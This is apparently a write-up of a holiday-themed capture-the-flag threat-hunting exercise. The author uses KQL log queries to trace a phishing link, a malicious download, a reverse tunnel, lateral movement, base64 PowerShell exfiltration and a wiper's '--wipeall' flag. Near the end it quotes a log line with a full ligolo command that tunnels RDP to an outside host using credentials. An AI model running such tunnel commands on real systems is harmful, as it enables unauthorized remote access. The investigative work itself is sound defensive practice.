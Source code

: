 ```yaml
---
description: 'Tools/Skills:'
---
```


# KQL Kraken Hunt

## SYNOPSIS

## SOLUTION & PROCESS

### ONBOARDING

1.  How many Craftperson Elf's are working from laptops?

    QUERIES:

    <img src="https://lh7-us.googleusercontent.com/MvbJxM40woFA4Se7p9tWOQm2HNwGU0VDQgfe9utIKP6vvsa2OT6JWrKqioJ1WYPsKbX-Kxi_1b5EWLB025D5RpRtfHJ53VGOeU51G-qtcqW5Ki4NSh1GU9ieXOZO4duxXdgoBWErkX3D-8miDltErz4" alt="" data-size="original">

    ANSWER:&#x20;

    25

### CASE 1

Track down who sent and who received the malicious link, as well as the subject link of the email with the malicious link: '[http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx](http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx)'

#### QUERIES

<figure><img src="https://lh7-us.googleusercontent.com/a5N2k43-CJEp9TZhSDyg4Nx4P4ZqA2Bli0qw_e5X1ca-9gGXB_fnM3zBxDpKOpOEDap0BgaEHeXFVR5oOaCYFaoZ_0LYuk93scdGDoXYI-wUTXEdW77rhHnlMTS-j6yoZ8DQcDVOwerJD3vxgOk_gIM" alt=""><figcaption></figcaption></figure>

#### ANSWERS

<figure><img src="https://lh7-us.googleusercontent.com/TEWx2TyqxROsCjFM5rLVDceggA-v58xdnk75d9f88OAKCiBLYEhlxGcil-AUbJcfJZyyzZitePm2umcJCDeZje69-uqWagS4uheLhfWUTILchGTo_0y2D7CxT1hSk_EuFKCZOz0WUmWilR8QeuL1rFA" alt=""><figcaption></figcaption></figure>

SENT: cwombley@gmail.com

RECEIVED: alabaster\_snowball@santaworkshopgeeseislands.org

SUBJECT LINE: “\[EXTERNAL] Invoice foir reindeer food past due”

### CASE 2

Find the role, hostname and ip address of the victim.

QUERY:

<figure><img src="https://lh7-us.googleusercontent.com/RYidirBYNrKLo6o40HKkaufZiA4n2ji3zKezkTp7u8M1HVyEtoBI-4BvjDScxEph46J1iNnGrzoj4iAnE3qPH14tttsqmn0cnkqwwUWxZLUCoRt8B6z3NmU1U1lAgEn3Hm77d1We8J25955fe0XUcYc" alt=""><figcaption></figcaption></figure>

SOLUTION:

<figure><img src="https://lh7-us.googleusercontent.com/3Y4irJPGmPvzKY2PccMde4Nyh3TGslugW77Y1DDS_fOj2-nqsyvutvZpaFSOq0Gl42M8OZ-Nlg71Roz1T5Iy7f7ycN2aF6jrzpwxNY_T_FY5kMFdseMNf8ScTMNhPSi4NxXbu2az-hiZAefocI_j8W4" alt=""><figcaption></figcaption></figure>

IP ADDRESS: 10.10.0.4

ROLE: Head Elf

HOSTNAME: Y1US-DESKTOP

### CASE 3

What time did the victim click on the link? Were any files downloaded after he clicked on it?

QUERY 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/vjQBuf1AzOctN15_B3oylkiBAH3_onFBlmdKTyKgffISnb3xBUuCo7b97LdE84Exj91KpBBGEgeMtZ2_5bD6u8myMsLlnft-kupBNJAIdTHrdUL4vAgGRT7V-0-mzJRZ6CXWHo78G4PR4pwz6vwYetc" alt=""><figcaption></figcaption></figure>

RESULT 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/PuHI9oixhptbV5-p8QJddSSYdnlMxvt1vo02Z3a06cHAk7ZTRddCIgLyT6L2_FNdaO_pmfGZto-EfOmfVF8_bGb1FsXFaz8Irkr-ZGcRkEYWTf5aKVCVagIeIFwMIJkUCfNnkeJWBJS_K5b-ZD2S2cw" alt=""><figcaption></figcaption></figure>

QUERY 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/lRyC6YQ28kU\_pR5nCbn92Fqkuf8GWlyEG5s6imvz\_UOfPsm1xdLBTDzl7Xu0tuykkynOun1tLwwC3oukJcIEqyCJi6EMKUDDL4h3TYRKsXEd8D9KOtO3XCgalEEa1ZS\_VtcVI4il4cozLrD0ZD4Ajyc)

RESULT 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/i2eMprbbxh1QBb2an7Ne2UfpfVZkAcUYnZUN7Zw4sbRrhOyxnn0ZvrqQIvESit-hKqayao60YeqK9MwELjJJPUjJLFzSiPMna\_CIYrguPIHA8O3OGzXOumOeEYTFes2wz3DRyx-lHzmT-tBhO0nRb-0)

TIME (OF CLICK): 2023-12-02 10:12:42.0000

DOWNLOADED FILE NAME: giftwrap.exe

### CASE 4

Where did the attacker create a remote tunnel to? When did the attacker enumerate network shares? What hostname did the attack perform lateral movement to get to?

#### Endpoint IP Address from a created Remote Tunnel

QUERY

![](https://lh7-us.googleusercontent.com/XVTPmDsMIZEp--ItJ67Fq8\_lDYxkm1jJFZFDYSEfPKS4VH9sEG0vP4kJMd4Qn1eEjM0D9y20XW9igJOstKdr56IzBMQy54zAxKxyHauurHnQYLvV7UgxQ8oQm7DjfcgT5EvUy8hANf4AF1PUw5mXeYs)

RESULT:

![](https://lh7-us.googleusercontent.com/13na8qbqYkdYLu8903nbmkt5NsLFbw1u5T4GeWbV0T7JWvmpFUVWyW39yFKuoHTGh22vtBCWtBhp9uuFBie4Qp2ncvzQc8BY2Hcu6jfKweDo76UDjX80Nmfb3kHuDsl\_XklbYyU6F542kfH1l6iRl\_k)

IP ADDRESS: 113.37.9.17

#### Time & Hostname

QUERY:

![](https://lh7-us.googleusercontent.com/79ZbEpZXt87wTw0uRpiB1OL\_phy2GliL5CgLDTtpqiKxMfFDhn2qazIUfvDU-t0PBbKf2uEl9ngDCn9A6T8natskto503FD1geuQh4YsaKyv0KZwIYZxwDnyilKpAE\_wcPw8vNS-f-F1rP9\_qLfM0NM)

RESULT 1 (TIME when attacker enumerated network shares):

![](https://lh7-us.googleusercontent.com/utX1fUCATCO1biW6B0EuUWje\_NzTER932a0u41DC\_I8gR3D-OdP7\_\_DZk1Z9PYGlBkI2BIT7yEbwO\_fq7bM4rqilI82rjiEIQDc0BG09ryaHF1DV6qsq2tKmdnTD87\_gNppuY-tQBO-2R1kSnt-jSzw)

RESULT 2 (Hostname of lateral movement)

![](https://lh7-us.googleusercontent.com/uLdRc2VE2m4hC8LNxvb4xW\_IfL\_GPmfwb36Xn6reOhujuxcmN-1koCRn3DSn2sXZD-oRcCJuzrfpb-f-EroyYY7usaC77uAWSDyDkLDj2a7E48PjywxaekzbluIFVTJoNo7ij25o1ATEbBxJCh3q6HM)

TIME (OF ENUMERATED NETWORK SHARES): 2023-12-02T16:51:44Z

HOSTNAME (OF LATERAL MOVEMENT): NorthPolefileshare\


### CASE 5

Find base64 encoded powershell commands and find the name of the file that was transferred and to where.

QUERY

<figure><img src="https://lh7-us.googleusercontent.com/vLnmuC-nBhxoltH41WizoiRsYpbt2IpUgNIzEkO34KEuGHs6XZQUS6DlLpYLLKv84uMe8snT_QziHpl8wmeSAFjNWPNBe1uVsFuoTy10nV6QVQwFkMyupxSh5lvpk15HmyoQXnAtrDNb8XeSqzkH67o" alt=""><figcaption></figcaption></figure>

RESULT

<figure><img src="https://lh7-us.googleusercontent.com/Qh-bkx5hVYtRvROknWUM_UB4SBXF1omukoWjbaWl3Kz-mZ6ul9bOlgs-cC5iKrLte55RmaMy3oR5w-0vuyLBtzHHZGztGneovIuwE-KVO3s-4J2-MyxUDLE-4n_bn2jfwniIv7qqf901B32rj77xC9w" alt=""><figcaption></figcaption></figure>

FURTHER STEPS:&#x20;

1. I decoded the four, actually 3, base64 encoded texts in Powershell.&#x20;

<figure><img src="https://lh7-us.googleusercontent.com/q1g_wAseK58O47_l_IVAy0iyyezy4DmKcvEP88tYjVhKdwWehMEpxlQgxm8zeZ4mx7rRTIeemWqGXRvFfIVzOxRdFAXyzN0-7PV1-hF6RgA1bLOAVzjC3GQRBVzmSldFnszPWlSuzLvETroDH5QZKDM" alt=""><figcaption></figcaption></figure>

2. One of the decoded messages was written in reverse, so I wrote it backwards, with some help from AI, discovering the file name.&#x20;
3. A 2nd “decoded” message was almost all numbers, which I thought was strange, so I sent it to chatgpt. ChatGPT found how it was encoded and decoded it, showing me the domain the file was sent to.

TIME (OF FIRST ATTACK): 2023-12-24T16:07:47Z&#x20;

\*NOTE:there was an encoded powershell command before this one, but it was a basic update, not indicative of an attack)

FILE TRANSFERRED NaughtyNiceList.txt

DOMAIN (WHERE FILE WAS SENT) giftbox.com



### CASE 6

Determine executable and command flag

QUERY

\*I used the previous query.

RESULT

<figure><img src="https://lh7-us.googleusercontent.com/JdZkygDuCblavsOhMKjahEV4S40jsp7rmSXSpIJ3xOmAgKysEiMABSzIq0wDWbHx9mbYsfTpi-U_RzQsAsut7PEtchqVtfD3vpBzx36TKayZe2oa9ZHmBfOTGsP0hz_4yuNFbG3eQjjjbhD_snlPlqw" alt=""><figcaption></figcaption></figure>

EXECUTABLE: downwithsanta.exe

COMMAND FLAG: --wipeall

### [ChatGPT Prompts/Answers](https://chat.openai.com/share/94431fef-ea99-4e63-a282-69e523da68f7)

Example Prompts:

* What signs would there be that a reverse tunnel connection with a compromised machine is made? Where would I find the IP the connection forwarded to? (Using KQL)
* What is the timestamp when the attackers enumerated network shares on the machine?
* What process names would be indicative of this?
*   Is this a reverse tunnel connection?

    "timestamp": 2023-12-02T11:11:29Z,

    "parent\_process\_name": cmd.exe,

    "parent\_process\_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,

    "process\_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,

    "process\_name": ligolo,

    "process\_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,

    "hostname": Y1US-DESKTOP,

    "username": alsnowball
